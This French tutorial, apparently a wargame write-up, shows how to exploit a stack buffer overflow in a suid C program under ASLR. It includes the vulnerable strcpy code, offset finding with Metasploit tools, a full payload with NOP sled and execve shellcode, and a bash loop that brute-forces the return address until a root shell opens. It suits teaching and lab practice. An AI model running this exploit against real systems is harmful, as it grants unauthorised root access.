 # Le Stack Overflow avec ASLR

## I. Introduction
Nous allons voir la technique la plus simple pour executer un shellcode malgré la présence de la protection ASLR.

## II. Pré-requis
* Un programme suid
* Un code permettant le buffer overflow

Soit le programme `vuln` suivant :
```{r, engine='C'}
#include <stdio.h>
#include <string.h>

void hello(char * src)
{
        char buffer[64];

        strcpy(buffer, src); /* Buffer overflow */
        printf("Hello %s !\n", buffer);
}

int main(int argc,char * argv[])
{
        if(argc<2)
		return -1;

        hello(argv[1]);

        return 0;
}
```

## III. La faille
Ce programme permet un stack overflow classique car l'input utilisateur est recopié en mémoire sans vérification (`strcopy()`). Ceci étant, la randomization de la mémoire fait que notre shellcode sera placé à des adresses mémoires différentes à chaque execution du programme vulnérable.  
Mais, les différentes adresses de notre shellcode reste tout de même dans le même secteur : elles sont prédictibles. Une technique serait de choisir une adresse et de tenter x fois de lancer le programme jusqu'à ce que notre adresse pointe sur des NOP de notre shellcode... On va donc bruteforcer.

## IV. Exploitation

### On détermine l'offset de l'adresse de retour
Pour cela, on génère on suite de caractère unique sur kali :
```{r, engine='bash'}
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```
On execute notre programme vulnérable sous le debugger `gdb`
```{r, engine='bash'}
aas@ubuntu:~$ gdb -q ./vuln
Reading symbols from /wargame/medium/level1/level...(no debugging symbols found)...done.
gdb$ r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
Votre argument est : Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

Program received signal SIGSEGV, Segmentation fault.
Cannot access memory at address 0x63413563
0x63413563 in ?? ()
```
Kali va maintenant nous dire à l'octet près là où nous pouvons réécrire l'adresse de retour
```{r, engine='bash'}
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb $(ruby -e 'print "\x63\x41\x35\x63".reverse')
[*] Exact match at offset 76
```

### Construction de l'input
Faisons ça comme pour un stackoverflow classique :
`JUNK + EIP + NOPs + SHELLCODE``
```{r, engine='bash'}
aas@ubuntu:~# gdb -q ./vuln
Reading symbols from /wargame/medium/level1/level...(no debugging symbols found)...done.
gdb$ r `python -c 'print "A"*76 + "BBBB" + "\x90"*1000 + "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"'`
gdb$ x/100x $esp
0xbf98fdd0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbf98fde0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbf98fdf0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbf98fe00:	0x90909090	0x90909090	0x90909090	0x90909090
0xbf98fe10:	0x90909090	0x90909090	0x90909090	0x90909090
0xbf98fe20:	0x90909090	0x90909090	0x90909090	0x90909090
0xbf98fe30:	0x90909090	0x90909090	0x90909090	0x90909090
0xbf98fe40:	0x90909090	0x90909090	0x90909090	0x90909090
0xbf98fe50:	0x90909090	0x90909090	0x90909090	0x90909090
0xbf98fe60:	0x90909090	0x90909090	0x90909090	0x90909090
0xbf98fe70:	0x90909090	0x90909090	0x90909090	0x90909090
0xbf98fe80:	0x90909090	0x90909090	0x90909090	0x90909090
...
```
Choisissons 0xbf98fe10 comme @eip.


### Bruteforce
Une simple boucle for nous permet de réaliser notre bruteforce :

```{r, engine='bash'}
aas@ubuntu:~$ for i in {1..25000}; do echo Try: $i && ./level `python -c 'print "A"*76 + "\x10\xfe\x98\xbf" + "\x90"*1000 + "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"'` && break ; clear ; done ;
Try: 1
Try: 2
...
Try: 607
#
```

Nous accédons au shell root. C'est une méthode de boeuf, mais elle reste simple et plutôt efficace.
